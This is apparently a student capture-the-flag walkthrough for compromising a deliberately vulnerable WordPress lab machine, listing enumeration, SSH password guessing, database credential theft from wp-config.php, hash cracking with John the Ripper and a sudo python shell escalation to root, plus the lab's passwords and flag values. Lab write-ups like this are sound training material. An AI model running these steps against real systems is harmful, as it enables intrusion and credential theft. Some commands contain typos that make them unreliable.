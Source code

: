# **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Look at Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1. ` nmap -sV 192.168.1.110`

    ![1](/Images/2/1.png)

2. Enumerate: 

    `wpscan --url http://192.168.1.110/wordpress -eu`

    Likewise, the usernames are easy to guess because of the leads on the website.

    ![2](/Images/2/wpscan.png)

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

    ![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

    ![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

    ![4](/Images/2/4.png)

12. `cd /var/www/html/wordpress`

13. `Nano wp-config.php`

    ![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

    ![6](/Images/2/6.png)

17. `use wordpress;`

    ![7](/Images/2/7.png)

18. `show tables;`

    ![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

    ![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

    ![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

    ![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

    ![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

    ![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

    ![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

    ![15](/Images/2/15.png)

32. `grep -r flag3 *`

    ![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

    ![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
